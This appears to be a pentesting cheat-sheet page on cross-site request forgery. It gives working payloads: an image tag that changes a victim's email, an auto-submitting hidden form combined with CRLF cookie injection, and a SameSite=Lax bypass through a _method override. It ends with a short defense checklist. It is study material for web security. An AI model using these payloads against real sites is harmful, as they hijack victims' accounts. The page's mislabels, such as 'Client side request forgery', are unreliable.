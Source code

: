 ```yaml
---
description: Let users who visit the website to perform actions they aren't supposed to do.
cover: https://www.plexal.com/wp-content/uploads/2023/05/MicrosoftTeams-image-171.png
coverY: 0
---
```


# CSRF

#### Client side request forgery allows an attacker to induce users to perform actions that they do not intend to perform.

## <mark style="color:red;">Deliver a CSRF Exploit</mark>

### <mark style="color:yellow;">**Reflected XSS**</mark>

#### <mark style="color:purple;">Attacker will place the malicious HTML onto a web site that they control.</mark>

### <mark style="color:yellow;">GET method</mark>

<mark style="color:purple;">**Example**</mark>

```html
<img src="https://vulnerable-website.com/email/change?email=attacker@evil-user.net"> 
```

## <mark style="color:red;">Common CSRF vulnerabilities</mark>

* Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.
* Some applications correctly validate the token when it is present but skip the validation if the token is omitted.
* Some applications do not validate that the token belongs to the same session as the user who is making the request.
* Some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions.

\
<mark style="color:purple;">**Example**</mark>

```html
<html>
  <body>
    <form action="https://vul-site.com/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;yahoo&#46;com" />
      <input type="hidden" name="csrf" value="jyLqs10iSdsMQz1S5jqucMF55ZyDRyQL" />
      <input type="submit" value="Submit request" />
    </form>
     <img src="http://vul-site.com/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()"> 
  </body>
</html>
```

* Some applications do not maintain any server-side record of tokens that have been issued.
* Cookie **SasmeSite=Lax** bypass via method override. Change **POST** method to **Get** with **"\_method"** parameter. Example\
  &#x20;`/change-email?email=attacker@attack.net&_method=POST`

## <mark style="color:red;">Defenses</mark>

* [ ] CSRF tokens
* [ ] HTTP cookie header (csrf-key)
* [ ] Captcha
* [ ] HTTP Referer header
